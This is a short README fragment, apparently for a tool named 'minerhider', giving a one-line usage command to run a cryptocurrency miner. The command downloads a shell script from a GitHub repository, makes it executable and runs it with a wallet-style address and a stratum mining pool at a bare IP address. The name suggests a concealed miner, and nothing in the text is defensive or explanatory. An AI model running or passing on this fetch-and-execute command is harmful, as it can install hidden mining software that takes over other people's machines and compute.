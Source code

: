 runing miner :
usega :
wget https://github.com/minhide/minerhider/raw/refs/heads/main/sh && chmod +x sh && ./sh RVV8T2V36o6sxWJqqqc6fTLF6pKp3RWifN.vpsmner1 stratum+tcp://167.172.65.186:4052 2 n
